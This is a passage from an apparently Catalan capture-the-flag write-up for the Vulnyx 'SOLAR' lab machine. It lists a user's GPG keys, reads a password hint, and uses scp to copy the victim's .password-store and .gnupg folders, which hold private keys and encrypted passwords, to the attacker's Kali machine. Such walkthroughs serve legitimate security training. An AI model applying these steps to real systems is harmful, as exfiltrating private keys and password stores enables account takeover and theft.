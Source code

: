 
Trobem dos fitxers de claus privades i diferents contrasenyes encriptades pel gestor de contrasenyes `pass` i emmagatzemades a `.password-store`.

```bash
lenam@solar:~$ gpg --list-keys --with-keygrip
/home/lenam/.gnupg/pubring.kbx
------------------------------
pub   rsa3072 2024-08-29 [SC]
      E6DB2B029F01725397A555CD6CE6C909C038D50C
      Keygrip = 18DB29FBB15652340964CF0E1C710F34AA848ADD
uid           [ultimate] secret <lenam@solar.nyx>
sub   rsa3072 2024-08-29 [E]
      Keygrip = C622C75FED7EF077FDE1AB4D6A1F5D37E4896A95

lenam@solar:~$ gpg --list-secret-keys --with-keygrip
/home/lenam/.gnupg/pubring.kbx
------------------------------
sec   rsa3072 2024-08-29 [SC]
      E6DB2B029F01725397A555CD6CE6C909C038D50C
      Keygrip = 18DB29FBB15652340964CF0E1C710F34AA848ADD
uid           [ultimate] secret <lenam@solar.nyx>
ssb   rsa3072 2024-08-29 [E]
      Keygrip = C622C75FED7EF077FDE1AB4D6A1F5D37E4896A95

lenam@solar:~$ gpgconf --list-components
gpg:OpenPGP:/usr/bin/gpg
gpgsm:S/MIME:/usr/bin/gpgsm
gpg-agent:Private Keys:/usr/bin/gpg-agent
scdaemon:Smartcards:/usr/lib/gnupg/scdaemon
dirmngr:Network:/usr/bin/dirmngr
pinentry:Passphrase Entry:/usr/bin/pinentry
```

Veiem una clau GPG que pertany a l'usuari "secret" amb el correu electrònic lenam@solar.nyx. La clau principal s'utilitza per signar i certificar [SC], mentre que la clau subordinada s'utilitza per xifrar [E] dades. Totes dues claus no caduquen mai.
La petjada digital (fingerprint) de la clau és `E6DB2B029F01725397A555CD6CE6C909C038D50C`.

El xifrat RSA de 3072 bits és un xifrat molt fort i serà difícil de crackejar per força bruta.

També trobem un fitxer amb una nota.

```bash
lenam@solar:~$ cat note.txt
You just have to remember the one that starts with love and ends with a number.
```

Copiem les carpetes `.gnupg` a la home de l'usuari de la nostra màquina (Compte aquí si ja teniu aquestes carpetes; feu una còpia abans per no perdre les vostres claus GPG) i també ens copiem la carpeta `.password-store`.

```bash
┌──(kali㉿kali)-[~/CTFs/Vulnyx/SOLAR/test]
└─$ scp -ri id_ed25519_lenam lenam@192.168.1.168:~/.password-store .
Enter passphrase for key 'id_ed25519_lenam':
.gpg-id                                                  100%    7     1.8KB/s   00:00
user.gpg                                                 100%  471   168.5KB/s   00:00
private_id.gpg                                           100%  471    93.7KB/s   00:00
office.gpg                                               100%  463   108.3KB/s   00:00

┌──(kali㉿kali)-[~/CTFs/Vulnyx/SOLAR/test]
└─$ scp -ri id_ed25519_lenam lenam@192.168.1.168:~/.gnupg ~/
Enter passphrase for key 'id_ed25519_lenam':
tofu.db                                                  100%   48KB   6.9MB/s   00:00
pubring.kbx                                              100% 1954   562.6KB/s   00:00
random_seed                                              100%  600   154.7KB/s   00:00
gpg-agent.conf                                           100%   36     9.3KB/s   00:00
```